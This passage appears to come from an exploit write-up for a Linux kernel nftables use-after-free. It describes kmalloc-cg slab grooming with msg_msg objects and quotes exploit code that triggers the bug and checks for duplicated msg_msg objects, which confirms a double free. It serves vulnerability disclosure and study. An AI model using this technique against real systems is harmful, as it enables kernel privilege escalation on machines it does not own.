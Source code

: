 In summary, the `kmalloc-cg-1k` slabs are filled by marked `struct msg_msg` objects and the `kmalloc-cg-512` slabs are also filled by `struct msg_msg` except the two free holes for double-freed chunks.

### 6.3 Triggering the vulnerability for overlapping chunks

- [exploit/extra-refined/exploit.c#L780](../exploit/extra-refined/exploit.c#L780)
```c
nl = mnl_socket_open(NETLINK_NETFILTER);
if (nl == NULL)
{
	err(1, "Cannot into mnl_socket_open()");
}

if (mnl_socket_bind(nl, 0, MNL_SOCKET_AUTOPID) < 0)
{
	err(1, "Cannot into mnl_socket_bind()");
}

// setup table and chains
printf("[*] prepare table and chain...\n");
prepare_nftables(nl);

printf("[*] now trigger UAF...\n");
trigger_uaf(nl, NOCG_TARGET_SET_SIZE);
```
Then, we trigger the vulnerability. For that, we implemented `prepare_nftables`
and `trigger_uaf`. Due to its complexity, we did not include this one in this
documentation. So please refer to [our exploit code](../exploit/extra-refined/exploit.c). After that, we
can create the double-freed chunks in the `kmalloc-cg-512` cache.

- [exploit/extra-refined/exploit.c#L798](../exploit/extra-refined/exploit.c#L798)
```c
// spary msg_msg with unique types
for (int i = 0; i < 3; i++)
{
	memset(buf, 0, CG_MSG_MSG_SIZE);
	if (msgqids1[i] < 0)
		continue;
	if (send_msg(msgqids1[i], buf, CG_MSG_MSG_SIZE - 48, i + 1) < 0)
		perror("msgsnd");
}

// and check duplicate
int key1, key2;
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqids1[0], msg, sizeof(msg_buf), 0, IPC_NOWAIT | MSG_COPY);
if (ret < 0)
	perror("msgrcv");
key1 = msg->mtype;

memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqids1[2], msg, sizeof(msg_buf), 0, IPC_NOWAIT | MSG_COPY);
if (ret < 0)
	perror("msgrcv");
key2 = msg->mtype;

if (key1 != key2)
{
	err(1, "fail to get double free...");
}
printf("[+] we have duplicated msg_msg! : %d, %d, %d\n", key1, key2, ret);
``` 
